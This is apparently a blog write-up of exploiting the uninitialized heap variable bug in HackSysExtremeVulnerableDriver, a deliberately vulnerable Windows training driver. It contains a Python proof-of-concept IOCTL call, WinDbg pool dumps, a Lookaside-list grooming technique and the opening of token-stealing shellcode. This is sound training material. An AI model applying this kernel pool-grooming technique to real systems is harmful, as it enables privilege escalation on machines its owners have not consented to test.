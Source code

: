 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver UninitializedHeapVariable
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Let's work with the same steps like the last challenge.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

buf = "\xff\xff\xff\xff"

kernel32.DeviceIoControl(hevDevice, 0x222033, buf, len(buf), None, 0, byref(c_ulong()), None)
```

Set a breakpoint at TriggerUninitializedHeapVariable method
```
kd> bp HEVD!TriggerUninitializedHeapVariable+0x119
kd> g
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_HEAP_VARIABLE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0x983C6F10
[+] UserValue: 0xFFFFFFFF
[+] UninitializedHeapVariable Address: 0x8D6D5BB8
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x05000000
Breakpoint 0 hit
HEVD!TriggerUninitializedHeapVariable+0x119:
957c3e83 ff5004          call    dword ptr [eax+4]
kd> !pool 0x983C6F10
Pool page 983c6f10 region is Paged pool
 983c6000 size:  200 previous size:    0  (Allocated)  MmRe
 983c6200 size:   38 previous size:  200  (Allocated)  CMVa
 983c6238 size:   10 previous size:   38  (Free)       CMVI
 983c6248 size:   50 previous size:   10  (Allocated)  NtFd
 983c6298 size:   e8 previous size:   50  (Allocated)  FMfn
 983c6380 size:   30 previous size:   e8  (Allocated)  CMpb Process: 9352eb88
···
 983c6dd8 size:   58 previous size:   28  (Allocated)  MmRe
 983c6e30 size:   b0 previous size:   58  (Allocated)  NpFc Process: 87ce03a8
 983c6ee0 size:   28 previous size:   b0  (Allocated)  NtFs
*983c6f08 size:   f8 previous size:   28  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
```


## 0x002 Exploit it!

Vulnerability is obvious, I don't want to say any more.
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedheapvariable/0x001.png)

First, we should know some structure about Lookaside list and ListHead list

Lookaside list is normally organized by Singly Linked List, there is a block's layout on this kind of list after freeing. 
```
| _POOL_HEADER(8 byte) | _SINGLE_LIST_ENTRY(4 byte) | buffer[size] |
```

However, for ListHead list, which is organized by Double Linked List
```
| _POOL_HEADER(8字节) | _LIST_ENTRY(8 byte) | buffer[size] |
```

Now, we pay attention on the vulnerability module
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedheapvariable/0x002.png)
The member Callback is at the offet of 0x4, that's mean the pool can't allocate by ListHead list, otherwise, "Callback" would be overwrite.

We need to allocate 256 objects of same size and then freeing them, because Lookaside list only manages upto 256 chunks. if increase the number, the allocation would come from ListHead list.

When our vulnerability method require a 0xf8 size pool, it will get a provioud chunks which organize by Lookaside list, while the content after the offset of 0x4 are no reseting.
```
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_HEAP_VARIABLE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0x97F9AB78
[+] UserValue: 0xBAD31337
[+] UninitializedHeapVariable Address: 0x935D7BB8
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x0158D1EC
Breakpoint 0 hit
HEVD!TriggerUninitializedHeapVariable+0x119:
9579de83 ff5004          call    dword ptr [eax+4]
kd> !pool 0x97F9AB78
Pool page 97f9ab78 region is Paged pool
 97f9a638 size:    8 previous size:    0  (Allocated)  Frag
 97f9a640 size:   b0 previous size:    8  (Allocated)  VdPN
 97f9a6f0 size:    8 previous size:   b0  (Free)       Toke
 97f9a6f8 size:   18 previous size:    8  (Allocated)  CMNb (Protected)
 97f9a710 size:   18 previous size:   18  (Allocated)  CMIn (Protected)
 97f9a728 size:    8 previous size:   18  (Free)       CcPh
 97f9a730 size:   18 previous size:    8  (Allocated)  CMIn (Protected)
 97f9a748 size:   40 previous size:   18  (Allocated)  CMDa
 97f9a788 size:   38 previous size:   40  (Allocated)  CMVa
 97f9a7c0 size:   38 previous size:   38  (Allocated)  CMDa
 97f9a7f8 size:   18 previous size:   38  (Allocated)  CMNb (Protected)
 97f9a810 size:   48 previous size:   18  (Allocated)  CMVa
 97f9a858 size:   80 previous size:   48  (Allocated)  CMDa
 97f9a8d8 size:    8 previous size:   80  (Free)       ObNm
 97f9a8e0 size:   18 previous size:    8  (Allocated)  CMVI
 97f9a8f8 size:   20 previous size:   18  (Free)       SeSc
 97f9a918 size:   e0 previous size:   20  (Allocated)  FMfn
 97f9a9f8 size:   38 previous size:   e0  (Allocated)  CMDa
 97f9aa30 size:   18 previous size:   38  (Allocated)  PfFK
 97f9aa48 size:  120 previous size:   18  (Allocated)  FMfn
 97f9ab68 size:    8 previous size:  120  (Free)       FMfn
*97f9ab70 size:   f8 previous size:    8  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
 97f9ac68 size:  118 previous size:   f8  (Allocated)  FMfn
 97f9ad80 size:    8 previous size:  118  (Free)       Toke
 97f9ad88 size:   38 previous size:    8  (Allocated)  CMNb (Protected)
 97f9adc0 size:   38 previous size:   38  (Allocated)  CMNb (Protected)
 97f9adf8 size:   40 previous size:   38  (Allocated)  CMDa
 97f9ae38 size:   20 previous size:   40  (Allocated)  CMNb (Protected)
 97f9ae58 size:   38 previous size:   20  (Allocated)  CMDa
 97f9ae90 size:   60 previous size:   38  (Allocated)  Key  (Protected)
 97f9aef0 size:   38 previous size:   60  (Allocated)  CMNb (Protected)
 97f9af28 size:    8 previous size:   38  (Free)       FMfn
 97f9af30 size:   68 previous size:    8  (Allocated)  FIcs
 97f9af98 size:   68 previous size:   68  (Allocated)  FIcs
```

Now, it will call an uninitialized Addr, which we set up to our shellcode Addr
```
kd> dd 97f9ab70
97f9ab70  061f0201 6b636148 00000000 0158d1ec
97f9ab80  42424242 42424242 42424242 42424242
97f9ab90  42424242 42424242 42424242 42424242
97f9aba0  42424242 42424242 42424242 42424242
97f9abb0  42424242 42424242 42424242 42424242
97f9abc0  42424242 42424242 42424242 42424242
97f9abd0  42424242 42424242 42424242 42424242
97f9abe0  42424242 42424242 42424242 42424242
kd> u 0158d1ec
0158d1ec 90              nop
0158d1ed 90              nop
0158d1ee 90              nop
0158d1ef 90              nop
0158d1f0 60              pushad
0158d1f1 64a124010000    mov     eax,dword ptr fs:[00000124h]
0158d1f7 8b4050          mov     eax,dword ptr [eax+50h]
0158d1fa 89c1            mov     ecx,eax
```

pwn~
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedheapvariable/0x003.png)